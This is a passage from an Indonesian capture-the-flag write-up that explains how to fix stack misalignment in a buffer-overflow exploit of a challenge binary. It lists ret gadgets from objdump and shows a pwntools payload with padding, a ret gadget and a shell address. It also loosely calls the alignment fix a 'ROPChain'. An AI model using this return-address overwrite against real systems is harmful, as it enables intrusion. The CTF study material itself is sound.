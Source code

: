 sudah benar alamat tersebut bisa dipanggil tetapi bukanya membuka shell malah memanggil sesuatu yang lain dan crash pada saat menjalankan `movaps xmmword ptr [rsp + 0x50], xmm0`, ini dikarenakan alamat yang dipanggil `0x4012c3` merupakan alamat yang bersumber dari buffer-overflow sehingga susunan pada memory jadi berantakan, ini disebut juga dengan un-Alligned Address, untuk itu dibutuhkan alamat return yang lain sebelum memanggil alamat `0x4012c3` dengan begitu masalah **un-Alligned Address** atau biasa disebut dengan **ROPChain**,

```bash
objdump -D ./chal | grep ret
40101a:       c3                      retq
401164:       c3                      retq
401190:       c3                      retq
4011d0:       c3                      retq
4011fe:       c3                      retq
401200:       c3                      retq
40127a:       c3                      retq
40129c:       c3                      retq
4012c2:       c3                      retq
4012d9:       c3                      retq
401354:       c3                      retq
401388:       c3                      retq
4013f4:       c3                      retq
401404:       c3                      retq
401414:       c3                      retq
```

ambil salah satu alamat dari hasil tersebut dan tambahkan setelah padding

```python
padding = "A"*cyclic_find("aacmaacnaa")
RIP = p64(0x4012c3)
RET = p64(0x4013f4)
p.sendline("th15_i5_n0t_4_fl4g\x00" + padding + RET +RIP)
```

![Gdb3](4.png)
